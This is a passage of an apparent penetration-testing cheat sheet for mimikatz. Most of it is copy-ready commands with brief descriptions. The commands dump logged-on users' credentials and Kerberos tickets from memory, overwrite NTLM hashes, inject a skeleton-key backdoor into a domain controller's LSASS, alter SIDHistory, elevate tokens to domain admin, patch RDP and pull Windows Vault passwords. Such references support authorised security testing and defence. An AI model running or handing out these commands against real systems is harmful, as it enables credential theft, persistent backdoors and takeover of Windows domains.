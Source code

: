 - **LSADUMP::SetNTLM**: Set a new NTLM hash for a user.
  - `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`

- **LSADUMP::Trust**: Retrieve trust authentication information.
  - `mimikatz "lsadump::trust" exit`

### Miscellaneous

- **MISC::Skeleton**: Inject a backdoor into LSASS on a DC.
  - `mimikatz "privilege::debug" "misc::skeleton" exit`

### Privilege Escalation

- **PRIVILEGE::Backup**: Acquire backup rights.
  - `mimikatz "privilege::backup" exit`

- **PRIVILEGE::Debug**: Obtain debug privileges.
  - `mimikatz "privilege::debug" exit`

### Credential Dumping

- **SEKURLSA::LogonPasswords**: Show credentials for logged-on users.
  - `mimikatz "sekurlsa::logonpasswords" exit`

- **SEKURLSA::Tickets**: Extract Kerberos tickets from memory.
  - `mimikatz "sekurlsa::tickets /export" exit`

### Sid and Token Manipulation

- **SID::add/modify**: Change SID and SIDHistory.
  - Add: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
  - Modify: *No specific command for modify in original context.*

- **TOKEN::Elevate**: Impersonate tokens.
  - `mimikatz "token::elevate /domainadmin" exit`

### Terminal Services

- **TS::MultiRDP**: Allow multiple RDP sessions.
  - `mimikatz "ts::multirdp" exit`

- **TS::Sessions**: List TS/RDP sessions.
  - *No specific command provided for TS::Sessions in original context.*

### Vault

- Extract passwords from Windows Vault.
  - `mimikatz "vault::cred /patch" exit`


{% hint style="success" %}